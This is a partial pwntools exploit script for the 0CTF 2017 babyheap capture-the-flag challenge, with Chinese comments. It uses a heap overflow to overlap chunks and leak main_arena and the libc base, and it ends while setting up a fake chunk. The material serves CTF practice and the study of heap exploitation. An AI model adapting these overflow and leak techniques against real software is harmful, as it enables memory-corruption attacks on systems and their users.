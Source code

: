     filename = './0ctf_2017_babyheap'
    context(log_level='debug')
    local = 1
    elf = ELF(filename)
    # libc = ELF('./libc.so.6')
    # libc = ELF('/home/ltfall/Desktop/pwn/buuctf_libc/ubuntu16_64/libc-2.23.so')

    if local:
        sh = process(filename)
    else:
        sh = remote('node4.buuoj.cn', 25212)

    def debug():
        pid = util.proc.pidof(sh)[0]
        gdb.attach(pid)
        pause()

    def allocate(size):
        sh.sendlineafter(': ', '1')
        sh.sendlineafter(': ', str(size))

    def fill(index, size, content):
        sh.sendlineafter(': ', '2')
        sh.sendlineafter(': ', str(index))
        sh.sendlineafter(': ', str(size))
        sh.sendafter(': ', content)

    def free(index):
        sh.sendlineafter(': ', '3')
        sh.sendlineafter(': ', str(index))

    def dump(index):
        sh.sendlineafter(': ', '4')
        sh.sendlineafter(': ', str(index))

    # 首先申请三个0x80的chunk，大概思路是先free第1个chunk，然后通过第0个chunk溢出修改第1个chunk的head，让OS误认为chunk1的大小是chunk1+chunk2
    # 此时申请回chunk1，但是chunk1此时就是chunk1+chunk2两个块重合了，然后因为题目里面是calloc，因此将变成0的恢复，然后free掉chunk2，chunk2将会被添加到unsortbin
    # 因此chunk2的fd和bk都会指向main_arena，此时打印chunk1，打印的实际上是chunk1+chunk2两个块，因此可以打印出chunk2的fd和bk，并由此得出&main_arena、libc_addr。
    allocate(0x80)
    allocate(0x80)
    allocate(0x80)
    allocate(0x20) # 没有这个 做不出来 挺怪的
    free(1)
    fill(0, 0x90, b'a'*0x80 + p64(0) + p64(0x121))
    allocate(0x110)
    payload = b'a'*0x80 + p64(0) + p64(0x91) + b'c'*0x80 
    fill(1, len(payload), payload)
    free(2)
    dump(1)
    main_arena = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x58
    info('the addr of main_arena is {}'.format(hex(main_arena)))
    libc_addr = main_arena - 0x3c4b20
    info('the libc addr is {}'.format(hex(libc_addr)))
    fake_chunk_addr = libc_addr + 0x3c4aed
    info('the fake_chunk_addr is {}'.format(hex(fake_chunk_addr)))